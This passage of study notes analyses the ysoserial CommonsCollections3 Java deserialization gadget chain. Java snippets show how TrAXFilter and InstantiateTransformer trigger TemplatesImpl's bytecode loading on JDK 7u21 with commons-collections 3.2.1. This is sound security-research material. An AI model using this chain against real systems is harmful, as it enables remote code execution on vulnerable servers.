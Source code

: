 ```java
  
// switch contents of queue  
final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");  
queueArray[0] = templates;  
queueArray[1] = 1;

return queue;
```


### CommonCollections3

> A variant of CC1, replace `InvokerTransformer` by `InstantiateTransformer`


> [!NOTE] pre-requirements
> JDK <= 7u21, reproduce on jdk7u21
> commons-collections:commons-collections:3.2.1

As [[Java Deserialize Vulnerabilities ysoserial study#TemplatesImpl exploit|this section]] presents, `TemplatesImpl`'s `newTransformer` exposes an approach to loading arbitrary byte code.

Seek for reference of `TemplatesImpl`'s `newTransformer` method, find in `TrAXFilter`'s constructor:
```java
public TrAXFilter(Templates templates)  throws  
    TransformerConfigurationException  
{  
    _templates = templates;  
    _transformer = (TransformerImpl) templates.newTransformer();  
    _transformerHandler = new TransformerHandlerImpl(_transformer);  
    _useServicesMechanism = _transformer.useServicesMechnism();  
}
```

Immediately after [[Java Deserialize Vulnerabilities ysoserial study#Proof of Concept|this code section]], proof concept above by code below:
```java
...
Class cls = com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter.class;  
Constructor constructor = cls.getDeclaredConstructor(Templates.class);  
constructor.setAccessible(true);  
constructor.newInstance(templates); // templates is TemplatesImpl type
```

This routine can be translated into the form of transformers, by introducing `InstantiateTransformer`:
```java
final Transformer[] transformers = new Transformer[] {  
      new ConstantTransformer(TrAXFilter.class),  
      new InstantiateTransformer(  
            new Class[] { Templates.class },  
            new Object[] { templates } )};
```


[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)